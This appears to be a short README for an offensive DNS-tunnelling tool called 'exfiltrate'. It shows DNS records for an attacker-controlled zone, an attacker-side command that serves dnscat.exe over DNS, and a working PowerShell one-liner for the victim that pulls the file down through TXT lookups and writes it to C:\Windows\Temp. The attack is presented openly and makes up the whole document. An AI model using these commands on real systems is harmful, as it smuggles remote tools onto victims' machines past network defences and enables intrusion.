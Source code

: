 # exfiltrate

Correct `yourzone.tk`.

## General DNS Setup

```
A * -> <IP>
A @ -> <IP>
A vps -> <IP>
NS dns -> vps.yourzone.tk
```

## Infiltration (File Upload)

Attacker:

```bash
$ sudo ./dns_upload.py dns.yourzone.tk --udp --file dnscat.exe -o/--output 'C:\Windows\Temp\dnscat.exe' [-s/--sleep 300]
```

Victim:

```powershell
PS > for($d=1;$d -le 1190;$d++){while (1){try{$a=(Resolve-DnsName "d$d.dns.yourzone.tk" -Type TXT -Server 1.1.1.1 -ErrorAction Stop).Strings}catch{continue};break};$b=@();for($i=0;$i -le "$a".Length-1;$i=$i+2){$b+=[convert]::ToByte($a.Substring($i,2),16)};while(1){Sleep -mi 300;try{Add-Content "C:\Windows\Temp\dnscat.exe" -Value $b -Encoding Byte -ErrorAction Stop}catch{continue};break}}
```
